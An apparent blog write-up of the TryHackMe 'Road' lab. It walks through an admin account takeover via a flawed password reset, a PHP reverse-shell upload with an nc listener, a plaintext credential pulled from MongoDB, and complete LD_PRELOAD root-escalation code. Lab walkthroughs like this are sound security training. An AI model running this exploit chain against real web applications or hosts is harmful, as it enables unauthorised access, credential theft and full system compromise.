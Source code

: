 ```yaml
---
layout: post
title:  "THM: Road"
date:   2021-11-28 15:00:00 +1000
category: hacking
---
```


This is THM: [Road](https://tryhackme.com/room/road).

>Inspired by a real-world pentesting engagement

Medium rated. 

## Ports
SSH and HTTP, we'll assume we're looking to compromise a website.

Clicking around on the site we have a website for a courier company, we can register an account:

{% highlight html %}
POST /v2/admin/reg.php HTTP/1.1
Host: 10.10.55.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: http://10.10.55.104
Connection: close
Referer: http://10.10.55.104/v2/admin/register.html?register=
Cookie: PHPSESSID=kr3ntku0s06d4d6alb33kfctrr
Upgrade-Insecure-Requests: 1

ci_csrf_token=&User_Email=user%40user.com&User_Pass=password&conpass=password&Us_Cont=1234567890&submit=
{% endhighlight %}                             

And then login. Once we're logged in, we can poke around and most of the links are disabled, but we do have an option to reset our password:

{% highlight html %}
POST /v2/lostpassword.php HTTP/1.1
Host: 10.10.55.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=--------------------------82609457926100363341274917374
Content-Length: 648
Origin: http://10.10.55.104
Connection: close
Referer: http://10.10.55.104/v2/ResetUser.php
Cookie: PHPSESSID=6e36ec9l9agmadm6ssoqfjphi0; Bookings=0; Manifest=0; Pickup=0; Delivered=0; Delay=0; CODINR=0; POD=0; cu=0
Upgrade-Insecure-Requests: 1

-----------------------------82609457926100363341274917374
Content-Disposition: form-data; name="uname"

user@user.com

-----------------------------82609457926100363341274917374
Content-Disposition: form-data; name="npass"
hello
-----------------------------82609457926100363341274917374
Content-Disposition: form-data; name="cpass"
hello
-----------------------------82609457926100363341274917374
Content-Disposition: form-data; name="ci_csrf_token"
-----------------------------82609457926100363341274917374
Content-Disposition: form-data; name="send"
Submit
-----------------------------82609457926100363341274917374--
{% endhighlight %} 

And if we look at our profile:

``
GET /v2/profile.php HTTP/1.1
``

We see there is an option to upload a profile picture, but there is a message:

>Right now, only admin has access to this feature. Please drop an email to admin@sky.thm in case of any changes.

So, of course we use the password reset feature with the admin username, right?!

{% highlight html %}
POST /v2/lostpassword.php HTTP/1.1
Host: 10.10.55.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------82609457926100363341274917374
Content-Length: 648
Origin: http://10.10.55.104
Connection: close
Referer: http://10.10.55.104/v2/ResetUser.php
Cookie: PHPSESSID=6e36ec9l9agmadm6ssoqfjphi0; Bookings=0; Manifest=0; Pickup=0; Delivered=0; Delay=0; CODINR=0; POD=0; cu=0
Upgrade-Insecure-Requests: 1

-----------------------------82609457926100363341274917374
Content-Disposition: form-data; name="uname"
admin@sky.thm
-----------------------------82609457926100363341274917374
Content-Disposition: form-data; name="npass"
...etc
{% endhighlight %}

And we get this response:

{% highlight html %}
Password changed. 
Taking you back...
{% endhighlight %}

And now we are admin. Which means we can upload a profile picture:

{% highlight html %}
POST /v2/profile.php HTTP/1.1
Host: 10.10.55.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=--------------------------136235337437474030683435809052
Content-Length: 6082
Origin: http://10.10.55.104
Connection: close
Referer: http://10.10.55.104/v2/profile.php
Cookie: PHPSESSID=2h6d1lq455asheqv0c5l80enhm; Bookings=21; Manifest=10; Pickup=2; Delivered=13; Delay=5; CODINR=972; POD=19; cu=1
Upgrade-Insecure-Requests: 1
-----------------------------136235337437474030683435809052
Content-Disposition: form-data; name="pimage"; filename="shell.php"
Content-Type: application/x-php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
...etc
{% endhighlight %}

But where do we find it? This is where the Burpsuite 'Target' tab comes in handy:

``
http://10.10.55.104/v2/profileimages/
``

We have no directory listing, so let's try:

>http://10.10.55.104/v2/profileimages/shell.php

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/road]
└─# nc -nvlp 1234 
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.55.104] 46866
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 04:32:30 up 14 min,  0 users,  load average: 0.00, 0.14, 0.32
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@sky:/$ ls -lash
{% endhighlight %}

Boom.

## Next
Linpeas says we have mongodb:

{% highlight shell %}
╔══════════╣ Analyzing Mongo Files (limit 70)
Version: MongoDB shell version v4.4.6                                                                                                                                                                           
Build Info: {
    "version": "4.4.6",
    "gitVersion": "72e66213c2c3eab37d9358d5e78ad7f5c1d0d0d7",
    "openSSLVersion": "OpenSSL 1.1.1f  31 Mar 2020",
    "modules": [],
    "allocator": "tcmalloc",
    "environment": {
        "distmod": "ubuntu2004",
        "distarch": "x86_64",
        "target_arch": "x86_64"
    }
}
db version v4.4.6
Build Info: {
    "version": "4.4.6",
    "gitVersion": "72e66213c2c3eab37d9358d5e78ad7f5c1d0d0d7",
    "openSSLVersion": "OpenSSL 1.1.1f  31 Mar 2020",
    "modules": [],
    "allocator": "tcmalloc",
    "environment": {
        "distmod": "ubuntu2004",
        "distarch": "x86_64",
        "target_arch": "x86_64"
    }
}
-rw-r--r-- 1 root root 626 Dec 19  2013 /etc/mongod.conf
storage:
  dbPath: /var/lib/mongodb
  journal:
    enabled: true
systemLog:
  destination: file
  logAppend: true
  path: /var/log/mongodb/mongod.log
net:
  port: 27017
  bindIp: 127.0.0.1
processManagement:
  timeZoneInfo: /usr/share/zoneinfo
{% endhighlight %}

I don't know how to use it:

{% highlight shell %}
www-data@sky:/tmp$ which mongo
which mongo
/usr/bin/mongo
www-data@sky:/tmp$ mongo -h
mongo -h
MongoDB shell version v4.4.6
usage: mongo [options] [db address] [file names (ending in .js)]
{% endhighlight %}

But that's never stopped me before:

{% highlight shell %}
www-data@sky:/tmp$ mongo localhost:27017
mongo localhost:27017
MongoDB shell version v4.4.6
# etc
> show dbs
shshow dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
ususe backup
switched to db backup
> show collections
shshow collections
collection
user
> db.user.find()
dbdb.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
{% endhighlight %}

Hello!

## Privesc

{% highlight shell %}
www-data@sky:/tmp$ su webdeveloper
su webdeveloper
Password: BahamasChapp123!@#

webdeveloper@sky:/tmp$ sudo -l
sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
webdeveloper@sky:/tmp$
{% endhighlight %}

I have never done one of these before. The tar wildcard privesc doesn't work on an extract, and it's LD_PRELOAD we [want](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/).

{% highlight shell %}
webdeveloper@sky:/tmp$ cat shell.c
cat shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
webdeveloper@sky:/tmp$
webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:1: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 | setgid(0);
      | ^~~~~~
shell.c:7:1: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 | setuid(0);
      | ^~~~~~
webdeveloper@sky:/tmp$ ls -al shell.so
ls -al shell.so
-rwxrwxr-x 1 webdeveloper webdeveloper 14760 Nov 28 05:24 shell.so
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
<D_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
sky
Sun 28 Nov 2021 05:25:40 AM UTC
# cd /root
cd /root
# ls -lash
ls -lash
total 36K
4.0K drwx------  6 root root 4.0K Oct  8 08:22 .
4.0K drwxr-xr-x 20 root root 4.0K May 25  2021 ..
4.0K drwxr-xr-x  2 root root 4.0K Aug  7 21:51 .backup
   0 lrwxrwxrwx  1 root root    9 May 25  2021 .bash_history -> /dev/null
4.0K -rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
4.0K drwx------  2 root root 4.0K Oct  8 08:21 .cache
4.0K drwxr-xr-x  3 root root 4.0K May 25  2021 .local
4.0K -rw-r--r--  1 root root  161 Dec  5  2019 .profile
4.0K -r--------  1 root root   33 May 24  2021 root.txt
4.0K drwx------  2 root root 4.0K May 25  2021 .ssh
# cat root.txt
cat root.txt
FLAG_GOES_HERE
{% endhighlight %}

This was fun :)
